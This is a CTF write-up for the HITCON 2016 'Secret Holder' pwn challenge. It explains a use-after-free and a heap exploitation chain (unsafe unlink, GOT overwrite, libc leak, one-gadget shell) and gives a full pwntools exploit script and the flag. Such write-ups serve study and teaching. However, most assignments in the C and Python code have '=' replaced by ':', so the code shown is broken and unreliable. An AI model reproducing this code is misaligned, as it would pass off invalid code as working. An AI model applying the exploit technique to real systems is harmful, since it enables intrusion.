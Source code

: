 ```yaml
---
type: ctf
title : HITCON CTF 2016 Quals - Secret Holder
tags: [HITCON CTF, Secret Holder]
date : 2016-10-10
author: Eno Leriand
featuredImage: https://image.slidesharecdn.com/hitconctf2016-final-161204160901/85/hitcon-ctf-2016-21-320.jpg?cb=1668291139
---
```


**Category:** pwn
**Points:** 100

I did not finish the challenge during the contest, but was able to solve it after the game. Damn if only I can fuzz some more...

64 bit ELF,  with Partial RELRO, canary & NX enabled, no PIE.  
Program allow us to:

* keep secret : new a secret ( using `calloc()` )
* wipe secret : delete a secret
* renew secret : edit a secret

There are three kinds of secret in the program: 

* `small` : secret with buffer size 40
* `big` : secret with buffer size 4,000
* `huge` : secret with buffer size 400,000

There's a Use-After-Free vulnerability in the `wipe` function:
```c
v0 : atoi(&s);
switch ( v0 )
{
    case 2:
        free(secret_buf_big);
        has_keep_big : 0;
        break;
    case 3:
        free(secret_buf_huge);
        has_keep_huge : 0;
        break;
    case 1:
        free(secret_buf_small);
        has_keep_small : 0;
        break;
}
```
When wiping a secret, it does not check the `has_keep_XXX` flag ( a flag that indicates now there's a small/big/huge secret in the program). So for example if we `keep(small)` --> `wipe(small)` --> `keep(big)` --> **`wipe(small)`**, it will free the `big` buffer, but we can still `renew(big)`

During the contest I did not know how to exploit the service. I successfully overlapped the `small` and the `big` buffer, but it only made me able to overwrite the top_size, which is useless since we can't control the size of the `calloc` function ( thus we can't do the [House of Force](https://github.com/shellphish/how2heap/blob/master/house_of_force.c) attack ). I was also failed to overlapped these two buffer with the different base address ( that is, I can only overlapped `small` & `big` with the same base heap address), so I was unable to overflow the heap buffer and overwrite the chunk header.  

After I asked the author of this challege, I realize that the key point of solving this challenge is to **exploit the `huge` and the `big`'s memory chunk**. 

While solving this challenge, I thought that if the malloc size was larger than `0x20000`, glibc will always use `mmap` to allocate the memory space. But I was wrong -- if we `keep(huge)`--> `wipe(huge)`--> `keep(huge)`, we will found that the second `huge` buffer was allocated by the `malloc` function, not `mmap` !! ( Thanks to the god damn `sysmalloc` !! )

So here's how we gonna exploit it:

* Use `keep` and `wipe` to make `small` & `huge` buffer be on the same heap address.
* `keep(big)` and make `big` buffer adjacent to the end of the `small` buffer.
* By doing `renew(huge)`, we'll be able to overflow the whole `big` buffer, thus we can create a fake **smallbin** memory chunk at the address of the `big` buffer.  
* By creating some fake chunks, we can use the [unsafe unlink](https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c) attack to overwrite `&huge_buf` ( all three buffer's address are store in the global data section ), so now the `huge`'s buffer will be lying on the global data section.
* Now we can overwrite all three buffer address ( data pointer ) by doing `renew(huge)`
* `renew(small/huge/big)` to overwrite the content of any address.  

After we overwrite the `huge`'s buffer address, we can try to do the GOT hijacking attack. But first we'll have to leak some address. The program itself did not output any of our input , so I decide to hijack  `free`'s GOT first. 

By overwriting `free`'s GOT into `puts@plt`, and `small`'s buffer into `__libc_start_main@got.plt`, we are able to leak the libc's address by doing `wipe(small)`, since it'll call `free(small)`, which is now `puts(_libc_start_main@got.plt)`.

After that we're able to overwrite some GOT and hijack the control flow. Here I overwrite `puts`'s GOT into the address of the [one-gadget](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf), which will make the program spawn a shell whenever it tries to call `puts` to print out some message.  

```python exp_secret.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST : "52.68.31.117"
PORT : 5566
ELF_PATH : "./secret_holder_noalarm"
LIBC_PATH : "/lib/x86_64-linux-gnu/libc.so.6"

# setting 
context.arch : 'amd64'
context.os : 'linux'
context.endian : 'little'
context.word_size : 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level : 'INFO'

elf : ELF(ELF_PATH)
libc : ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res : ""
    while delim not in res:
        c : s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def keep(ch, secret):
    r.sendlineafter("3. Renew secret\n", "1")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

def wipe(ch):
    r.sendlineafter("3. Renew secret\n", "2")
    r.sendlineafter("3. Huge secret\n", str(ch))

def renew(ch, secret):
    r.sendlineafter("3. Renew secret\n", "3")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

if __name__ == "__main__":

    r : remote(HOST, PORT)
    #r : process(ELF_PATH)
    keep(1, "A"*8)
    keep(2, "A"*8)
    keep(3, "A"*8)
    wipe(1)
    wipe(2)
    wipe(3)

    keep(3, "3"*8) # now huge chunk will use malloc, not mmap!!
    wipe(1)
    keep(1, "A"*8) # now huge : small
    keep(2, "2"*8) # big will adjacent to the end of the small buffer

    # 0x6020a8 stores the huge buffer's address
    fake_fd : 0x6020a8 - 0x18
    fake_bk : 0x6020a8 - 0x10

    # overwrite big's chunk data with fake chunk data for unsafe unlink
    payload : p64(0) + p64(0x21) # fake prev_chunk header
    payload += p64(fake_fd) + p64(fake_bk) # fake fd and bk
    payload += p64(0x20) + p64(0x90) # we are going to free here
    payload += "B"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_chunk header
    payload += "C"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_next_chunk header
    renew(3, payload)
    
    wipe(2) # free big, trigger unsafe unlink

    # now huge_buf will point to global data section
    # renew huge, overwrite small, big & huge buffer address
    payload : "A"*0x10
    payload += p64(0)
    payload += p64(0x6020b0) # &small_buf
    payload += p64(elf.got['free'])
    renew(3, payload)
    
    renew(1, p64(elf.plt['puts'])) # make free(buf) : puts(buf)
    
    # make small_buf : libc_start_main got
    # wipe(small) = puts(small) = puts(got) : leak address
    payload : p64(elf.got['__libc_start_main']) + p32(1)*3
    renew(3, payload)
    wipe(1)
    libc.address += u64(r.recvline().strip().ljust(8, "\x00")) - libc.symbols['__libc_start_main']
    one_gadget : libc.address + 0x4525a
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))

    # hijack puts@got.plt, make it jump to one_gadget
    payload : p64(elf.got['puts']) + p32(1)*3
    renew(3, payload)
    renew(1, p64(one_gadget))

    r.interactive()


```

Such a shame that I didn't solve this challenge ...... I might be able to solve it if I did some more fuzzing.....

flag: `hitcon{The73 1s a s3C7e+ In malloc.c, h4ve y0u f0Und It?:P}`
